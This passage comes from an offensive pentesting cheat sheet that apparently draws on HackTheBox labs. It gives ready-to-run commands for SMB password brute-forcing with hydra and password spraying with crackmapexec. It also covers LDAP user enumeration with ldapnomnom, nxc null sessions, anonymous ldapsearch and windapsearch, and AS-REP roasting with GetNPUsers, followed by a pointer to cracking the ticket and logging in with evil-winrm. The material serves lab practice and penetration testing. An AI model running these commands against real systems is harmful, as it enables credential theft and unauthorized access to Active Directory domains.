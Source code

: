 #### Bruteforce
```
hydra -L users.txt -P passs.txt smb://10.0.0.1 -t 4
hydra -L username.txt -P password.txt 10.0.0.1 smb -V
```

#### Password Spraying
```
crackmapexec smb <IP> -d <DOMAIN> -u users.txt -p 'PASSWORD'
→ EX: crackmapexec smb 10.0.0.1 -d frabricorp -u users.txt -p '123Soleil'

STATUS_PASSWORD_MUST_CHANGE : correct password but has expired and needs to be changed before logging in
STATUS_LOGIN_FAILURE : incorrect password
```


## 🔻Port 143
## 🔻Port 389

#### User enumeration using LDAP PING
Explanation : https://blog.netwrix.com/2022/12/13/using-ldap-ping-to-enumerate-active-directory-users/
Github : https://github.com/lkarlslund/ldapnomnom
```
┌─[✗]─[root@htb-tuswhlsdcc]─[/home/kiosec/Documents]
└──╼ #./ldapnomnom-linux-x64 --input xato-net-10-million-usernames.txt --server test.com --maxservers 32 --parallel 16
 __    ____  _____ _____                             
|  |  |    \|  _  |  _  |___ ___ _____ ___ ___ _____ 
|  |__|  |  |     |   __|   | . |     |   | . |     |
|_____|____/|__|__|__|  |_|_|___|_|_|_|_|_|___|_|_|_|
prerelease

IN  SPACE  NO  ONE  CAN  HEAR  YOU  NOM  NOM  USERNAMES

guest
administrator
```

#### User enumeration using Null Session
```
nxc smb 10.129.219.77 -u '' -p '' --users
```

#### Without user account
```
➤ Anonymous connection attempt (-x). With the example test.com : DOMAIN = test and DOMAIN2 = com
ldapsearch -h 10.129.136.235 -p 389 -x -b "dc=htb,dc=local"   
ldapsearch -H ldap://machine.htb:389/ -x -s base -b '' "(objectClass=*)" "*" +

➤ Enumerate all AD users (https://github.com/ropnop/windapsearch)
./windapsearch.py -d test.com --dc-ip 10.0.0.1 -U

➤ Enumerate all objects in the domain
./windapsearch.py -d test.com --dc-ip 10.0.0.1 --custom "objectClass=*" 
CN=svc-alfresco,OU=Service Accounts,DC=htb,DC=local
The service alfresco needs Kerberos pre-authentication to be disabled. This means that we can request the encrypted TGT for this user. 

➤ Request a TGT ticket
./GetNPUsers.py DOMAIN/USERNAME -dc-ip <IP> -no-pass

➤ Next steps: Crack the obtained TGT ticket then used is again port 5985 using evil-winrm
```